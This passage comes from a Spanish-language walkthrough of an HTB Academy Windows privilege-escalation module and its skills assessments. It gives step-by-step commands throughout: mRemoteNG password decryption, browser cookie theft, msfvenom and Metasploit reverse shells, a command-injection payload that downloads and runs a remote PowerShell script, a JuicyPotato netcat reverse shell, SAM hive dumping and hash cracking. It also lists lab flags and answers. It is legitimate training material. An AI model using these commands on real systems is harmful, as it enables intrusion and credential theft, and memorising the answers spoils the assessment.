- El símbolo **`+=`** significa "añade este resultado al final de lo que ya tenías guardado en `$INSTALLED`", juntando ambas búsquedas en una sola lista gigante.

```
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort -object -Property DisplayName -Unique | Format-Table -AutoSize
```

- **`|` (Pipe/Tubería):** Pasa la lista completa al siguiente comando.

- **`?{ $_.DisplayName -ne $null }`**: Es un filtro. Significa: "Si algún registro tiene el nombre vacío (`null`), bórralo de la lista". Esto limpia actualizaciones ocultas o residuos del sistema.

- **`sort -object -Property DisplayName -Unique`**: Ordena los programas alfabéticamente por su nombre (`DisplayName`). El parámetro `-Unique` evita que aparezcan programas duplicados si estaban anotados dos veces.

- **`Format-Table -AutoSize`**: Dibuja el resultado final en la pantalla en forma de una tabla bonita y ajusta el ancho de las columnas de forma automática para que nada se corte y se lea perfectamente.

<p align="center"> 

</p>

`mRemoteNG` guarda la información de conexión y las credenciales en un archivo llamado `confCons.xml`. Utilizan una contraseña maestra codificada (hardcoded), `mR3m`, por lo que si alguien empieza a guardar credenciales en `mRemoteNG` y no protege la configuración con una contraseña, podemos acceder a las credenciales desde el archivo de configuración y descifrarlas.

answer: **mRemoteNG**

2. **Find the configuration file for the application you identify and attempt to obtain the credentials for the user Grace. What is the password for the local account, Grace?**

Nos vamos a la siguiente ruta

```
C:\Users\Peter\AppData\Roaming\mRemoteNG
```

Luego usaremos el siguiente comando con el objetivo de encontrar la pass

```
gc 'confCons.xml' |  Select-String password
```

>s1LN9UqWy2QFv2aKvGF42YRfFvp0bytu04yyCuVQiI12MQvkYT3XcOxWaLTz0aSNjRjr3Rilf6Xb4XQ=

Luego usaremos este [mremoteng_decrypt.py](https://github.com/kmahyyg/mremoteng-decrypt/blob/master/mremoteng_decrypt.py) para descifrar la pass

**`mremoteng_decrypt.py`** es un script en Python que sirve para **recuperar y descifrar contraseñas guardadas** en el programa **mRemoteNG**.

```
python3 mre_descrypt.py -s "s1LN9UqWy2QFv2aKvGF42YRfFvp0bytu04yyCuVQiI12MQvkYT3XcOxWaLTz0aSNjRjr3Rilf6Xb4XQ="
```

Por tanto las credenciales obtenidas quedaría tal que así --> **Grace**:**Princess01!**

answer: **Princess01!**

3. **Log in as Grace and find the cookies for the slacktestapp.com website. Use the cookie to log in into slacktestapp.com from a browser within the RDP session and submit the flag.**

```
runas /user:grace cmd
powershell -ep bypass
```

Una vez iniciado sesión, nos situaremos en **C:\Users\Public**  llevaremos acabo el siguiente comando:

```
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

<p align="center"> 

</p>

Apagamos la máquina e iniciamos con una carpeta compartida para trasladarnos el archivo a nuestra máquina atacante

```
xfreerdp /u:Peter /p:Bambi123 /v:10.129.203.122 /size:95% /dynamic-resolution /drive:Shared,/home/dani/Escritorio/htbAcademy/windowsPrivilegeEscalation
```

<p align="center"> 

</p>

En internet hay un script llamado **cookieextractor.py** que está diseñado para **extraer tokens de sesión y cookies de autenticación de un navegador web**, pero junto a la IA tuve que hacer una leve modificación ya que el archivo **cookies.sqlite** lo tengo en mi maquina atacante de forma local. A continuación dejo el script modificado:

```bash
import sqlite3
import argparse
import sys

def main():
    # Configuración de los parámetros por línea de comandos (idénticos al script original)
    parser = argparse.ArgumentParser(description="Extractor local de cookies SQLite")
    parser.add_argument("--dbpath", required=True, help="Ruta al archivo cookies.sqlite")
    parser.add_argument("--host", required=True, help="Nombre del host a buscar (ej: slack)")
    parser.add_argument("--cookie", required=True, help="Nombre de la cookie (ej: d)")
    
    args = parser.parse_args()

    try:
        # Conexión directa a la base de datos sin usar red
        conn = sqlite3.connect(args.dbpath)
        cursor = conn.cursor()
        
        # Consulta SQL para filtrar por host y nombre de la cookie
        query = "SELECT host, name, value FROM moz_cookies WHERE host LIKE ? AND name = ?;"
        cursor.execute(query, (f"%{args.host}%", args.cookie))
        
        resultados = cursor.fetchall()
        
        if not resultados:
            print(f"[-] No se encontró ninguna cookie con el nombre '{args.cookie}' para el host '{args.host}'.")
            sys.exit(0)
            
        print("\n[+] ¡Cookie encontrada con éxito!")
        print("="*60)
        for row in resultados:
            print(f"Host:  {row[0]}")
            print(f"Name:  {row[1]}")
            print(f"Value: {row[2]}")
            print("-"*60)
            
        conn.close()

    except sqlite3.OperationalError as e:
        print(f"[-] Error al abrir la base de datos: {e}")
        print("[!] Asegúrate de que la ruta al archivo es correcta y que no está bloqueado.")
    except Exception as e:
        print(f"[-] Ocurrió un error inesperado: {e}")

if __name__ == "__main__":
    main()
```

Este script lo hemos guardado con el nombre **cookieextractor.py** y llevaremos a cabo el siguiente comando:

```
python3 cookieextractor.py --dbpath cookies.sqlite --host slack --cookie d
```

- **`python3`**: Le dice al sistema que ejecute el programa utilizando el intérprete de Python 3.

- **`cookieextractor.py`**: Es el nombre del script o herramienta que programaste (o modificaste) para hacer la búsqueda.

- **`--dbpath cookies.sqlite`**: Le indica al script **dónde buscar**. Le estás pasando el archivo de base de datos (`cookies.sqlite`) donde el navegador guarda todas sus cookies.

- **`--host slack`**: Es el filtro por sitio web. Le dice al script: _"De todas las cookies que haya, solo me interesan las que pertenezcan a **Slack**"_.

- **`--cookie d`**: Es el filtro por nombre. Le especifica que, dentro de Slack, busque únicamente la cookie llamada **`d`** (que es justamente la que almacena el token de sesión secreto en esa plataforma).

<p align="center"> 

</p>

Una vez obtenida la cookies de la pagina **slack** usaremos nuestro navegador **google chrome** en incognito y visitamos la siguiente pagina

```
http://slacktestapp.com/
```

Luego tecleamos la tecla **f12** luego nos vamos a **Application** - **Cookies** 

En value escribimos lo siguiente: **`xoxd-VGhpcyBpcyBhIGNvb2tpZSB0byBzaW11bGF0ZSBhY2Nlc3MgdG8gU2xhY2ssIHN0ZWFsaW5nIGEgY29va2llIGZyb20gYSBicm93c2VyLg==`**

Reiniciamos la pagina y obtenemos lo siguiente:

<p align="center"> 

</p>

Nuevas credenciales  **jeff**:**Webmaster001!**

answer: **HTB{Stealing_Cookies_To_AccessWebSites}**

4. **Log in as Jeff via RDP and find the password for the restic backups. Submit the password as the answer.**

```
xfreerdp /u:jeff /p:Webmaster001! /v:10.129.203.122 /size:95% /dynamic-resolution +clipboard
```

Una vez iniciado en el escritorio nos encontramos un archivo llamado **backup.conf** lo abrimos

<p align="center"> 

</p>

answer: **Superbackup!**

5. **Restore the directory containing the files needed to obtain the password hashes for local users. Submit the Administrator hash as the answer.**

```
xfreerdp /u:jeff /p:Webmaster001! /v:10.129.203.122 /size:95% /dynamic-resolution +clipboard /drive:Shared,/home/dani/Escritorio/htbAcademy/windowsPrivilegeEscalation
```

Realizamos este comando para **listar y ver el historial de todas las copias de seguridad ** que están guardadas dentro del contenedor de Restic.

```
restic.exe -r E:\restic snapshots
```

pass: Superbackup!

Elegimos la copia mas reciente que es en este caso el que tiene el ID **b2f5caa0**

<p align="center"> 

</p>

```
restic.exe -r E:\restic restore b2f5caa0 --target C:\Users\jeff\Desktop\
```

Una vez restaurada, volvemos a nuestra kali y usaremos la herramienta **msfvenom**

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.168 -f exe -o backupscript.exe LPORT=4445
```

Por otro lado, prepararemos los siguiente comandos en un archivo llamado **handler1.rc**

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lport 4445
set lhost 10.10.14.168
run
```

lo lanzamos

```
sudo msfconsole -r handler1.rc
```

<p align="center"> 

</p>

El archivo que hemos creado con msfvenom llamado **handler1.rc** lo trasladamos a nuestra kali dentro de la carpeta recien restaurada **C:\Users\jeff\Desktop\C\Windows\System32\config** y lo activamos

```
.\backupscript.exe
```

Una vez obtenida la sesion con meterpreter llevamos acabo estos comandos:

```
download SAM 
download SYSTEM 
download SECURITY
```

<p align="center"> 

</p>

Luego fuera de meterpreter y dentro donde hemos guardados los archivos, llevamos acabo el siguiente comando:

```
sudo impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
```

<p align="center"> 

</p>

answer: **bac9dc5b7b4bec1d83e0e9c04b477f26**

### Miscellaneous Techniques

1. **Using the techniques in this section, find the cleartext password for an account on the target host.**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.43.43 /size:95% /dynamic-resolution +clipboard
```

Abrimos la powershell, el objetivo es consultar las descripciones de usuario locales, el siguiente comando es clave para conseguir responder la pregunta.

```
Get-LocalUser | Format-Table Name, Description
```

<p align="center"> 

</p>

answer: **!QAZXSW@3edc**

## Dealing with End of Life Systems

### Windows Server

1. **Obtain a shell on the target host, enumerate the system and escalate privileges. Submit the contents of the flag.txt file on the Administrator Desktop.**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

En esta actividad llevaremos acabo la explotacion la vulnerabilidad **MS10-092 (Task Scheduler .XML)**

Dentro de metasploit escribimos lo siguiente:

```
msfconsole -q
search smb_delivery
use 0
set LHOST 10.10.14.168
set SRVHOST 10.10.14.168
exploit
```

<p align="center"> 

</p>

```
rdesktop -u htb-student -p HTB_@cademy_stdnt! 10.129.91.60:3389
```

Abrimos un cmd y escribimos lo siguiente 

```
rundll32.exe \\10.10.14.168\HFntHU\test.dll,0
```

En mi msfconsole se verá así:

<p align="center"> 

</p>

Para que la sesión dure mas tenemos que migrar a otro proceso

```
migrate -N explorer.exe
background
```

Luego cambiamos de modulo

```
search 2010-3338
use 0
set Session 1
set LHOST 10.10.14.168
set LPORT 4447
set ForceExploit true
run
```

<p align="center"> 

</p>

```
type C:\Users\Administrator\Desktop\flag.txt
```

answer: **L3gacy_st1ill_pr3valent!**

### Versiones de Windows Desktop

1. **Enumerate the target host and escalate privileges to SYSTEM. Submit the contents of the flag on the Administrator Desktop.**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

En esta actividad llevaremos acabo la explotación la vulnerabilidad **MS16-032 (Secondary Logon Handle)**

Dentro de metasploit escribimos lo siguiente:

```
msfconsole -q
search smb_delivery
use 0
set LHOST 10.10.14.168
set SRVHOST 10.10.14.168
exploit
```

<p align="center"> 

</p>

```
rdesktop -u htb-student -p HTB_@cademy_stdnt! -r clipboard:PRIMARYCLIPBOARD 10.129.91.74:3389
```

Abrimos el cmd, y escribimos el siguiente comando: 

```
rundll32.exe \\10.10.14.168\vOwnAr\test.dll,0
```

En el msfconsole obtenemos el **meterpreter**

```
sessions -1
migrate -N explorer.exe
background
```

<p align="center"> 

</p>

A continuación, en msfconsole buscamos la vulnerabilidad **MS16-032**

```
search MS16-032
use 0
set SESSION 1
set LPORT 4447
set LHOST 10.10.14.168
run
```

<p align="center"> 

</p>

```
type C:/Users/Administrator/Desktop/flag.txt
```

answer: **Cm0n_l3ts_upgRade_t0_win10!**

## Closing Thoughts 

### Windows Privilege Escalation Skills Assessment - Part I

1. **Which two KBs are installed on the target system? (Answer format: 3210000&3210060)**

```
cargo install rustscan
/home/dani/.cargo/bin/rustscan -a 10.129.91.241 --ulimit 5000 -- -Pn -sCV
```

`--`: Le dice a RustScan "los argumentos que vienen a continuación no son para ti, dáselos a Nmap".

Escaneo de rustscan

```bash
Open 10.129.91.241:80
Open 10.129.91.241:3389
```

Escaneo de nmap

```bash
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: DEV Connection Tester
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WINLPE-SKILLS1-
|   NetBIOS_Domain_Name: WINLPE-SKILLS1-
|   NetBIOS_Computer_Name: WINLPE-SKILLS1-
|   DNS_Domain_Name: WINLPE-SKILLS1-SRV
|   DNS_Computer_Name: WINLPE-SKILLS1-SRV
|   Product_Version: 10.0.14393
|_  System_Time: 2026-07-11T10:05:29+00:00
|_ssl-date: 2026-07-11T10:05:34+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WINLPE-SKILLS1-SRV
| Issuer: commonName=WINLPE-SKILLS1-SRV
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-07-10T09:54:28
| Not valid after:  2027-01-09T09:54:28
| MD5:     7ae0 31b2 814e 27be 2419 021f fe8c 2ae9
| SHA-1:   2d53 6107 a054 5d1c 1b6a ac89 2661 8c0a f93d 6b74
| SHA-256: 4276 2d70 c729 d0f7 d8d0 d071 42e4 4d14 1876 b6b2 1448 6792 dc57 8dec a83d b894
| -----BEGIN CERTIFICATE-----
| MIIC6DCCAdCgAwIBAgIQbv/DL19NsoVESiamnYKyPjANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDExJXSU5MUEUtU0tJTExTMS1TUlYwHhcNMjYwNzEwMDk1NDI4WhcN
| MjcwMTA5MDk1NDI4WjAdMRswGQYDVQQDExJXSU5MUEUtU0tJTExTMS1TUlYwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDSP0GtzlYa2z3GCBIfsDdE9nT/
| 1flNsw1VSJgDXyNc+I5CNjYlarNXpI5TEGNYyxzuyxE6mmpfJiSMBuXUcI228bLt
| J+/c6O31JWa3P0GdnI6Md7JfRi6xaXjP4P0SlbC4dA8z8RD+a0mIrCJ8Js6CR1al
| gEWiFlQOOJsSiBuv/eQdyZtif12VDXzgx8I2OsXSmLiy4hEeh6vk/kXMtLSsVf5I
| 2E2STtsnfScswrKywPqjwnExxxfSFVn4SxhKRgHCmiq/x/jASBJdD4mNuZZxPni7
| nhrtJQt29Hq0fLtRhjFdpQjNq2SJ2r3D4yt+RZk39dg3rqw+OgJCKqKEySsNAgMB
| AAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG
| 9w0BAQsFAAOCAQEAsF8ArLebXGWBWcPm9/6EVgai/DOIsGi2WoL7f7BeC32db8JH
| Qz0wIRiHWFJHsVaGFA0gdXBuX3wi0W6w10BBQAoymmRdehRqq0qDm70/cVXvGhHc
| ke0EpXZFMuf9WfdiwhXqLfI7I0hdlBg27yvr2Kl7Nm2SnWcGA4UMVwE7QLNxQ8gi
| q7TivDFvYIZzW+1B+bZNlADAW9D7RlQR73MGgBVlYZYodRu1T1rrVXr7/c5zT3qX
| 8/9UOnDipVYpeEdykax4IQ7r6ENw/DohLPRxknLKBej5+AVf7dchPokAtq+tK4Eq
| ctuqMp5XKytmIN5iRco7UZo86yWUHhJrfjZRdw==
|_-----END CERTIFICATE-----
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Nos detecta una pagina en el puerto 80

```
http://10.129.91.241:80/
```

Tras investigar un poco más a fondo el puerto 80, resulta que tiene `command injection`una vulnerabilidad del sistema operativo:

La inyección de comandos del sistema operativo es una vulnerabilidad de seguridad que permite a un atacante manipular una aplicación para ejecutar comandos arbitrarios del sistema operativo en el servidor. Ocurre cuando la entrada del usuario se introduce de forma insegura en comandos del sistema sin la validación ni el saneamiento adecuados. Si se explota, puede permitir al atacante ejecutar comandos como listar archivos, leer datos confidenciales o incluso obtener acceso remoto al sistema, lo que puede provocar el compromiso total del servidor.

Obtendremos una shell inversa gracias al archivo **update.ps1**

El contenido del archivo **update.ps1**

<p align="center"> 

</p>

Solo puedo poner una foto del código ya que el antivirus me lo coge como un virus y me borre todos los apuntes :(

Preparamos el puerto para compartir el archivo **update.ps1**

```
sudo python3 -m http.server 80
```

Por otro lado, preparamos el puerto de escucha para obtener la sesion de la máquina objetivo

```
nc -lvnp 4445
```

Nuevamente visitamos la página con el puerto 80 e introducimos el siguiente comando:

```
0.0.0.0 | powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.168/update.ps1')"
```

<p align="center"> 

</p>

El objetivo ahora es obtener KBs instalado en el sistema, si la lista es muy larga y podemos ver únicamente los números de los KBs, se puede filtrar la salida:

```
Get-HotFix | Select-Object HotFixID
```

<p align="center"> 

</p>

answer: **3199986&3200970**

2. **Find the password for the ldapadmin account somewhere on the system.**

Dentro de la sesion empiezo a recopilar información:

```
systeminfo
```

```bash
Host Name:                 WINLPE-SKILLS1-
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00376-30821-30176-AA757
Original Install Date:     5/25/2021, 8:57:43 PM
System Boot Time:          7/11/2026, 5:40:12 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.24504846.B64.2501180334, 1/18/2025
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,247 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,928 MB
Virtual Memory: In Use:    871 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 2 Hotfix(s) Installed.
                           [01]: KB3199986
                           [02]: KB3200970
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.10.2
                                 IP address(es)
                                 [01]: 10.129.225.46
                                 [02]: fe80::d133:7966:2ce0:42bf
                                 [03]: dead:beef::d133:7966:2ce0:42bf
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

luego, quiero saber que grupo hay en el sistema

```
whoami /groups
```

```bash
Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group
```

Y por ultimo me gustaría saber que permiso tiene el usuario

```
whoami /priv
```

```bash
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Siempre que el usuario tiene habilitado el permiso **SeImpersonatePrivilege** tenemos que llevar a cabo el ataque **Potato Attacks** para elevar el privilegio del usuario.

A continuación en la máquina atacante descargaremos el siguiente repo [batpotato](https://github.com/0x4xel/Bat-Potato)

```
git clone https://github.com/0x4xel/Bat-Potatom.git
```

Dentro de la carpeta **bat-potato** escribimos el siguiente comando

```
sudo python3 -m http.server 80
```

Luego en la maquina objetivo en la raíz se crea una carpeta llamada **tools** y dentro es donde guardaremos las herramienta

```
certutil.exe -urlcache -f http://10.10.14.168:80/JuicyPotato.exe .\JuicyPotato.exe
certutil.exe -urlcache -f http://10.10.14.168:80/nc.exe .\nc.exe
```

IMPORTANTISIMO el siguiente COMANDO, ya que necesitamos si o si **CLSIDs** (Identificador de Clase) de Windows. Se utiliza para encontrar y arrancar funciones específicas del sistema, aplicaciones o archivos compartidos (componentes COM/DCOM) sin necesidad de saber en qué carpeta exacta están instalados.

```
reg query HKCR\CLSID /s /f LocalService
```

- **`reg query`**: Es la herramienta nativa de la consola de Windows para consultar y leer información del Registro.
    
- **`HKCR\CLSID`**: Especifica el lugar donde buscar. Apunta a `HKEY_CLASSES_ROOT\CLSID`, que es la base de datos maestra donde están registrados todos los Identificadores de Clase del sistema.
    
- **`/s`**: Significa "subclaves". Le indica al comando que busque de forma recursiva dentro de **todas** las carpetas y subcarpetas de esa ruta (ya que hay miles de CLSIDs).
    
- **`/f LocalService`**: Significa "buscar (find)". Restringe la búsqueda para que solo te muestre las entradas que contengan la palabra exacta **`LocalService`**.

<p align="center"> 

</p>

Ahora tenemos que preparar el puerto de escucha en nuestra kali

```
nc -lvnp 4471
```

Con este comando conseguiremos una shell de windows pero con lo máximo privilegio, lo ejecutamos dentro de la carpeta **tools**

```
.\juicypotato.exe -l 4471 -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}" -p c:\windows\system32\cmd.exe -a " /c C:\tools\nc.exe -e cmd.exe 10.10.14.168 4471" -t *
```

- **`.\juicypotato.exe`**: Es el ejecutable de la herramienta. Se aprovecha de una debilidad en el mecanismo de autenticación DCOM/NTLM cuando una cuenta de servicio (como la que usan los servidores web IIS o MSSQL) tiene habilitado el privilegio de suplantación (`SeImpersonatePrivilege`).

- **`-l 4471`**: Define el puerto COM local de escucha. La herramienta levanta un servidor fraudulento en este puerto para engañar al sistema y forzarlo a autenticarse contra él.

- **`-c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"`**: Este es el **CLSID** (el identificador de clase del que hablábamos antes). Corresponde a un componente específico del sistema que se ejecuta bajo una cuenta con altos privilegios. Al instanciarlo, se obliga al sistema a realizar una conexión de red local interna.

- **`-p c:\windows\system32\cmd.exe`**: Especifica el programa que se desea iniciar una vez que la herramienta logre interceptar y suplantar el token de seguridad de alta autoridad. En este caso, solicita abrir una consola de comandos (`cmd.exe`).

- **`-a " /c C:\tools\nc.exe -e cmd.exe 10.10.14.168 4471"`**: Son los argumentos que se le pasan al programa anterior. Aquí utiliza `nc.exe` (Netcat) para intentar establecer una **conexión inversa** (reverse shell) hacia la dirección IP de control `10.10.14.168` a través del puerto `4471`, entregando el control de la consola.

- **`-t *`**: Le indica a la herramienta que intente ambos métodos disponibles en la API de Windows para crear el proceso con el token robado (`CreateProcessWithTokenW` y `CreateProcessAsUserW`), usando el que tenga éxito primero.

<p align="center"> 

</p>

En esta página es donde descargaremos la herramienta [LaZagne.exe](https://github.com/AlessandroZ/LaZagne/releases). Lo descargaremos dentro de **tools**

```
certutil.exe -urlcache -f http://10.10.14.168:80/LaZagne.exe .\LaZagne.exe
```

ejecutamos la herramienta

```
.\LaZagne.exe
```

<p align="center"> 

</p>

answer: **car3ful_st0rinG_cr3d$**

3. **Escalate privileges and submit the contents of the flag.txt file on the Administrator Desktop.**

```
type C:\Users\Administrator\Desktop\flag.txt
```

<p align="center"> 

</p>

answer: **Ev3ry_sysadm1ns_n1ghtMare!**

4. **After escalating privileges, locate a file named confidential.txt. Submit the contents of this file.**

Usamos el siguiente comando de la raíz

```
where /r . confidential.txt
type C:\Users\Administrator\Music\confidential.txt
```

- **`where`**: Es la herramienta o utilidad de Windows diseñada específicamente para localizar la ubicación de archivos y ejecutables.
    
- **`/r`**: Significa "recursivo" (_recursive_). Le indica al comando que no busque solo en la carpeta actual, sino que **entre en absolutamente todas las subcarpetas** que existan debajo de ella.
    
- **`.` (el punto)**: En los sistemas operativos, el punto representa el **directorio actual** (la carpeta donde estás parado en la terminal en ese momento). Si estuvieras en `C:\Users`, el punto le dice que empiece a buscar desde ahí.
    
- **`confidential.txt`**: Es el nombre exacto del archivo que estás intentando encontrar.

<p align="center"> 

</p>

answer: **5e5a7dafa79d923de3340e146318c31a**

### Windows Privilege Escalation Skills Assessment - Part II

1. **Find left behind cleartext credentials for the iamtheadministrator domain admin account.**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.43.33 /size:95% /dynamic-resolution /drive:Shared,/home/dani/Escritorio/htbAcademy/windowsPrivilegeEscalation +clipboard
```

En esta actividad usaremos [winpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20260708-abaa95f3) y descargaremos el archivo **winPEASx64.exe**, lo trasladamos en la ruta del archivo compartido y de ahi lo trasladamos al escritorio de la maquina objetivo.

```
.\winPEASx64.exe
```

<p align="center"> 

</p>

answer: **Inl@n3fr3ight_sup3rAdm1n!**

2. **Escalate privileges to SYSTEM and submit the contents of the flag.txt file on the Administrator Desktop**

```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer 
```

Estos dos comandos que ejecute sirven para verificar si existe una vulnerabilidad de configuración conocida como **AlwaysInstallElevated** en el sistema Windows.

Al ver que en ambos resultados el valor es **`0x1` (activado)**, significa que he encontrado una vía directa para realizar una **escalada de privilegios a `NT AUTHORITY\SYSTEM`** 

<p align="center"> 

</p>

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.168 lport=4445 -f msi > aie.msi
```

Obtenemos un archivo **.msi** que lo tenemos que mandar a nuestra maquina objetivo, lo haremos mediante la carpeta compartida. Ese archivo ira al escritorio.

Establecemos el puerto de escucha

```
nc -lnvp 4445
```

Luego dentro de **powershell** ejecutamos el siguiente comando

```
msiexec /ic:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

- **`msiexec`**: Es el programa legítimo y nativo de Windows encargado de interpretar, instalar y modificar paquetes `.msi`.

- **`/i c:\users\htb-student\desktop\aie.msi`**: El parámetro `/i` significa "Instalar" (_Install_). A continuación, se le pasa la ruta absoluta de dónde está guardado el archivo `.msi` (en este caso, un archivo llamado `aie.msi` en tu Escritorio).

- **`/quiet`**: Le dice a Windows que ejecute la instalación en "Modo Silencioso". Esto significa que **no interactuará con el usuario** en absoluto; no aparecerán barras de progreso, ni ventanas de "Siguiente", ni mensajes de confirmación.

- **`/qn`**: Especifica el nivel de interfaz de usuario. Significa **"No UI"** (Sin interfaz de usuario). Refuerza al parámetro `/quiet` para asegurar que el proceso corra estrictamente en segundo plano.

- **`/norestart`**: Evita que la máquina se reinicie automáticamente después de que termine la instalación, lo cual es vital para no perder el acceso a la sesión actual o alertar a un administrador del sistema.

Este es el paso final para explotar la vulnerabilidad **`AlwaysInstallElevated`** que descubriste en el registro. Al ejecutar este instalador, Windows lo procesará automáticamente con los máximos privilegios del sistema (`NT AUTHORITY\SYSTEM`).

<p align="center"> 

</p>

answer: **el3vatEd_1nstall$_v3ry_r1sky**

3. **There is 1 disabled local admin user on this system with a weak password that may be used to access other systems in the network and is worth reporting to the client. After escalating privileges retrieve the NTLM hash for this user and crack it offline. Submit the cleartext password for this account.**

En la pregunta especifican una cuenta de administrador deshabilitada. 
Según mi análisis anterior de winPEAS, podemos ver de qué cuenta se trata.

<p align="center"> 

</p>

Recordemos que somos admin, por tanto nos podemos descargar estos archivos **sam.save**, **system.save** y **security.save**

```
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.sav
reg.exe save hklm\security C:\security.save
```

<p align="center"> 

</p>

Recordemos que estos archivos se guardan en la carpeta raíz

<p align="center"> 

</p>

Estos archivos lo tenemos que trasladar a nuestra kali. Lo trasladamos a nuestra carpeta compartida :3 

<p align="center"> 

</p>

En nuestra kali se verá así 

<p align="center"> 

</p>

```
locate secretsdump.py
```

<p align="center"> 

</p>

A continuación usaremos la herramienta **secretsdump.py** para conseguir los hash de los usuarios

```
python3 /home/dani/Escritorio/Herramienta/impacket-0.9.24/build/scripts-3.13/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

<p align="center"> 

</p>

El hash del usuario **wksadmin** es **5835048ce94ad0564e29a924a03510ef**

Usaremos la herramienta **hashcat** para encontrar la contraseña de texto plano

```
hashcat  -m  1000 5835048ce94ad0564e29a924a03510ef  /usr/share/wordlists/rockyou.txt
```

answer: **password1**